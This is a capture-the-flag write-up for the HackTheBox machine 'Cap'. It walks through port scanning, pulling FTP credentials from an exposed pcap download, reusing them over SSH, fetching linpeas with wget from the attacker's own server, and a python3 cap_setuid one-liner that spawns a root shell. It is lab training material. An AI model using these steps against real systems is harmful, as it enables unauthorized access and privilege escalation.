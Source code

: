 ```yaml
---
title: Cap
date: 2021-10-03
# bookComments: false
# bookSearchExclude: false
---
```


<p align="center">
  <img src="cap-banner.png" />
</p>

***

# External Recon

As always we start to get a lay of the land with our default "nmap" scan:

```
nmap -sC -sV 10.10.10.245

PORT   STATE SERVICE VERSION
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```

Nothing unusual so far. However, since we have some version numbers let's check them with searchsploit.

![searchsploit](searchsploit.png)

Nothing for vsftp. OpenSSH looks quite new but I suggest checking it aswell.
I just made a mental note to come back to SSH should other paths seem to be a dead end.
Gunicorn had no version number, so I skipped the searchsploit aswell. But we can take a look at the website itself.

[[Top]](#top)

# Explore

First thing I noticed is the authenticated user named "Nathan". Could be handy if we want to bruteforce SSH or FTP.
I actually tried bruteforcing FTP with the username "nathan" and the "rockyou" wordlist. But I got blacklisted. So that
was a dead end.

Let's play with the webapp. I tried to logout and view the settings. But these functions are not implemented. So nothing to gain here.
The next thing I looked at was the menu entry "IP Config" and "Network Status".

![menu](menu.png)

Both entries return console output of the kind you would expect. IP Config returned the IP Config of the box for example.
Sometimes developers try to be efficient and pass parameters from the website to the backend. A perfect target for code injection.
Not this time though. Both outputs seemed to be static and not triggered by some sort of PHP script. 

I then took a look at the last entry "Security Snapshot".
On the website I got some network traffic statistics and an option to download a pcap file of said traffic.

![networktraffic](networktraffic.png)

In the screenshot above you can see, there was no traffic. And the pcap was also empty.
Hm. What now?

Well. We know that "Nathan" logged in at some point. Maybe we can find some credentials in the pcap?
Looking at the URL bar, we can see that there's a "3" behind the folder "data". And the pcap-name we downloaded aligns with
that number.

![download](download.png)

Let's check if there's a "2.pcap". And there is. Albeit empty too.

![download2](download2.png)

There's even a "0.pcap". And this one has indeed data in it.
Let's download it and open it with wireshark.

![creds](creds.png)

Awesome. We have his FTP credentials.

[[Top]](#top)


# Exploit

Let's login with our new credentials via SSH. Why SSH? Well, it's an easy box.
Nathan probably reused his password, and SSH is far more interessting than FTP. And if it doesn't work, we can come back to FTP.

![nathan](nathan.png)

Told you. Oh, we also have the user flag here.

[[Top]](#top)

# Internal Recon

Once I am on a machine, I do two things. I check if `sudo -l` gives me some insights and I upload `linpeas.sh`.
To do that I fire up a simple http server on my own machine with `python3 -m http.server 80` and download the file via `wget http://<ip>/linpeas.sh`.

![linpeas](linpeas.png)

After launching it and going through the output my eyes fell on this entry.

![capabilities](capabilities.png)

[[Top]](#top)


# Privilege Escalation
Capabilities are often easy to exploit. They are [explained here](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities).
In this case python3 has been allowed to change the UID of a new process. Which means we can start a new process, let's say /bin/sh, with UID 0 aka root - we will have root permissions.

Let's try it.

`python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'`

![root](root.png)

Great. It worked as expected. We can take the root flag and finish the box.

That's it for today. Have a nice one!

x41

[[Top]](#top)
